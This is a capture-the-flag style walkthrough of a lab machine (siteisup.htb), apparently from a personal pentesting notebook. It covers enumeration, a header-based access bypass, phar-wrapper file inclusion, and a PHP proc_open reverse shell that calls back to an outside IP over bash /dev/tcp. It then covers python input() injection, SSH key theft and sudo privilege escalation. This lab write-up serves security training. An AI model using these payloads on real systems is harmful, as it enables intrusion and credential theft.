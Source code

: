 1 - Enumerate ports

2 - Enumerate info about the website with whatweb

3 - Try to enumerate useful directories with [Nmap](</General Info/Tools/Enumeracion/Nmap.md>) using [http-enum](</General Info/Tools/NSE scripts/http-enum.md>)

4 - Once you've discovered the hidden `/dev` directory you can run the http nse script again with `--script-args http-enum.basepath={path}` giving the /dev as value in order to get additional directories in the specified path

5 - Now that you know that the server has the `/dev/.git` folder you can use the tool [Git-dumper](</General Info/Tools/Git-dumper.md>) to obtain the whole directory into your current folder (Just like a git clone does)

6 - Once you've done all the enumeration you can go into the page and try some attacks on it. A common attack that will come to our mind when we see the page with the functionality present in it is, at least in order to enumerate a little more, put our Ip in the text box and send the request while we're listening at it with [Netcat](</General Info/Tools/Netcat.md>). Another way to take advantage of the app is by trying to exploit an [OS Command Execution](</General Info/Tecnologias Web/Ataques/OS Command Execution.md>) if you think that maybe the command used to get the source code of the page is [Curl](</General Info/Linux commands/Curl.md>), an easy way to try it could be `http://{IP}; whoami`

7 - After trying some attacks you can go on and enumerate subdomains with [Wfuzz](</General Info/Tools/Enumeracion/Wfuzz.md>) or [GoBuster](</General Info/Tools/Enumeracion/Gobuster.md>). You'll find the dev.siteisup.htb.

8 - Now, you'll see that when you try to enter into the site with the dev subdomain you'll get the forbidden message, this error can be bypassed by adding the header `Special-Dev: only4dev`. This can be done by adding a `Request header` in the Match and Replace section.

9 - Once you've entered into the website you'll see an upload section and, reading the code, you can notice that if you add the `page` parameter in the url you can request the page given. In order to exploit this you can combine the upload section and the page parameter to, using the zip php wrapper, execute a php payload inside a compressed file.

10 - The way to exploit the website is, firstly, upload a compressed file with a random extension like `.hello` that contains a php reverse shell like the one in [Common payloads](</General Info/Payload/Common payloads.md>), secondly send a request to the /upload/{FOLDER}/{COMPRESSED FILE}/{PHP-FILE} with the parameter ?page, this ends like: {IP}/?page=phar://upload/{FOLDER}/{COMPRESSED_FILE}/{PHP_FILE} (You've to keep in mind that the php file of the index page adds the .php extension, so, you don't need to add .php to the {PHP_FILE}), and lastly, obtain the shell in a netcat server. (Important note: look at the usage of the [phar](</General Info/Tecnologias Web/PHP Wrappers/phar.md>) wrapper in this machine)
	10.1 - The previous way to exploit needs to know the blacklisted php expressions in order to make a php payload with an omitted non-blacklisted function. In this machine functions like system(), shell_exec() and exec() are prohibited, so, in order to exploit this we will use the tool [Dfunc Bypasser](</General Info/Tools/Dfunc Bypasser.md>) to automate the search of a legal function to get into the machine
	10.2 - The named tool requires us to execute the function phpinfo() in order to get a info disclousure of all the blacklist in the server
	10.3 - Important note about the app: You've to specify the headers used by the app to bypass the fobidden message, this can be done by adding `headers = {'Special-Dev': 'only4dev'}` in all the requests module calls
	10.4 - The reason behind uploading a compressed file is that, because the app tries to delete the file, you've to give the app something non-readable to make the app crash and skip the step of removing the file from /uploads

11 - Now that you know that the proc_open function is open to use you can try to upload a reverse-shell using this function. eg.:

```
<?php
	$descriptorspec = array(
   		0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   		1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   		2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);
	
	$shell = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.11/443 0>&1'";
	
	$process = proc_open($shell, $descriptorspec, $pipes);
?>
```

12 - Once you've done everything listed above, you are able to start pivoting and doing privilege escalation. The first thing you've to do is try to enumerate files with SUID in order to change your user (www-data) to developer. The way to do the pivoting is exploit the file stored in /home/developer/dev. This file can be exploited because the binary executes a python2 file that has the input() function, function that executes the code entered instead of only reading it. The particular way to exploit this is `__import__('os').system('bash -p')`.

13 - Now that you're inside of the developer user you can steal the id_rsa file in order to use it to gain the gid of the previously named user via SSH. In order to do this you've to cat out the file, copy the content, paste it in a file in your computer, use it along with the [SSH](</General Info/Tools/SSH.md>) tool: `ssh -i {FILE} {USER}@{IP}`

14 - Now you only have to gain root access, this can be done by, firstly enumerating with `sudo -l` and once you've seen the `easy-install` exploiting it with [GTFOBins](</General Info/Useful Pages/GTFOBins.md>). You've to look for the binary and look for how to exploit it with the SUID permisson